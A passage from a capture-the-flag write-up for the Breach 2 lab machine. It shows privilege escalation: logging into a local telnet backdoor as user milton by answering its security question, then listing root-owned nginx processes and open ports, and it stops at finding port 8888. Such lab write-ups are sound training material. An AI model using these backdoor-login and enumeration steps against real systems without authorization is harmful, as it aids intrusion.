 ## Privilege Escalation
### Exploiting Backdoor

I found a python script with the same question, and whose answer is mine, so I logged in and was switched to user milton.

```console
peter@breach2:~$ telnet 127.0.0.1 2323  
Trying 127.0.0.1...                        
Connected to 127.0.0.1.                     
Escape character is '^]'.                                 
29 45'46" N 95 22'59" W                              
breach2 login: milton                                    
Password:                                                       
Last login: Wed Jul 20 21:04:18 EDT 2016 from localhost on pts/0       
Linux breach2 3.16.0-4-amd64 #1 SMP Debian 3.16.7-ckt25-2 (2016-04-08) x86_64
29 45'46" N 95 22'59" W                                               
3
2
1
Whose stapler is it?mine
Woot!
milton@breach2:~$ id
uid=1002(milton) gid=1002(milton) groups=1002(milton)
```

listing the processes, I could see that the nginx server is running as root.

```console
milton@breach2:~$ ps aux | grep nginx
root      1423  0.0  0.5  91184  3008 ?        Ss   14:14   0:00 nginx: master process /usr/sbin/nginx -g daemon on; master_process on;
root      1424  0.0  0.7  91492  3664 ?        S    14:14   0:00 nginx: worker process                           
root      1425  0.0  0.7  91492  3664 ?        S    14:14   0:00 nginx: worker process                           
root      1426  0.0  0.8  91492  4524 ?        S    14:14   0:00 nginx: worker process                           
root      1427  0.0  0.8  91832  4524 ?        S    14:14   0:00 nginx: worker process                           
milton    1655  0.0  0.4  12728  2212 pts/1    S+   14:32   0:00 grep nginx
```

So I decided to list the services again, and found the port 8888 open.

```console
milton@breach2:~$ ss -antl
State      Recv-Q Send-Q          Local Address:Port               Peer Address:Port 
LISTEN     0      128                         *:8888                          *:*     
LISTEN     0      128                         *:36026                         *:*     
LISTEN     0      128                         *:65535                         *:*     
LISTEN     0      50                  127.0.0.1:3306                          *:*     
LISTEN     0      128                         *:111                           *:*     
LISTEN     0      64                  127.0.0.1:2323                          *:*     
LISTEN     0      128                        :::8888                         :::*     
LISTEN     0      128                        :::60330                        :::*     
LISTEN     0      128                        :::111                          :::*     
LISTEN     0      128                        :::80                           :::*
```
